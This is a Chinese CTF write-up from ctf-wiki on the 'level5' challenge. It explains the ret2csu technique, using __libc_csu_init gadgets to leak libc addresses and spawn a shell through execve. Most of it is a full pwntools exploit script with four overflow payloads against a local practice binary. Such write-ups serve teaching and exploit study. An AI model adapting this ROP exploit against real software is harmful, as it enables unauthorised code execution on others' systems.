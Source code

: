 #level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets
首先使用objdump观察__libc_csu_init
[](image/1.png)
[](image/2.png)
运行一下程序
发现是一个简单的输入程序
[](image/3.png)
调用了read函数读取输入
那么首先利用pattern找到溢出点
[](image/4.png)
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造
利用的四个步骤：
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。
4、通过溢出执行bss段内的execve函数。
需要涉及到的知识点
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。

完整代码
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```